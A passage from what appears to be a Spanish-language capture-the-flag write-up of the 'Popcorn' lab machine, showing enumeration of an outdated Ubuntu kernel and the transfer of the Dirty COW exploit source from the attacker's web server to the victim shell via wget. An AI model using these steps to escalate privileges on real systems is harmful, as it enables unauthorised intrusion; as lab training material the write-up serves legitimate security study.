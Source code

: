 Como tal **ubuntu** esta muy desactualizado 

```bash
www-data@popcorn:/$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 9.10
Release:	9.10
Codename:	karmic
www-data@popcorn:/$
```

Esto esta muy desactualizado la versión del kernel 

```bash
www-data@popcorn:/$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/$
```

Versiones tan antiguas son vulnerables al **dirtycow** <https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c>

Vamos pasarlo ala maquina victima

```bash
❯ wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
--2023-06-19 14:07:32--  https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 4815 (4.7K) [text/plain]
Grabando a: «dirty.c»

dirty.c                         100%[=======================================================>]   4.70K  --.-KB/s    en 0.03s   

2023-06-19 14:07:32 (168 KB/s) - «dirty.c» guardado [4815/4815]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.6 - - [19/Jun/2023 14:07:54] "GET /dirty.c HTTP/1.0" 200 -
```

Lo descargamos

```bash
www-data@popcorn:/tmp$ wget http://10.10.14.12:80/dirty.c
--2023-06-19 23:07:55--  http://10.10.14.12/dirty.c
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-csrc]
Saving to: `dirty.c'

100%[======================================>] 4,815       --.-K/s   in 0.08s   

2023-06-19 23:07:56 (60.6 KB/s) - `dirty.c' saved [4815/4815]

www-data@popcorn:/tmp$ 
```
